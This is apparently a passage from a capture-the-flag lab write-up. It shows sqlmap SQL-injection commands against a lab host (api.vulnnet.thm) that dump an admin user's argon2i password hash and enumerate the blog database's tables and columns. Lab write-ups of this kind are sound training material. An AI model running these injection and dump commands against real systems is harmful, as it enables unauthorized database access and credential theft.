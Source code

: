 <br>

```bash
:~# sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 --batch -D vn_admin -T be_users -C username,password --dump
```

```bash
Database: vn_admin
Table: be_users
[1 entry]
+----------+---------------------------------------------------------------------------------------------------+
| username | password                                                                                          |
+----------+---------------------------------------------------------------------------------------------------+
| chris_w  | $argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg |
+----------+---------------------------------------------------------------------------------------------------+
```

```bash
:~# echo '$argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg' > Hash
```

<br>
<br>

```bash
:~# sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 --batch -D blog --tables
```

```bash
Database: blog                                                                                                                                                                   
[4 tables]
+------------+
| blog_posts |
| details    |
| metadata   |
| users      |
+------------+
```

<br>

```bash
:~# sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 --batch -D blog -T users --columns
```

```bash
Database: blog                                                                                                                                                                   
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+
```
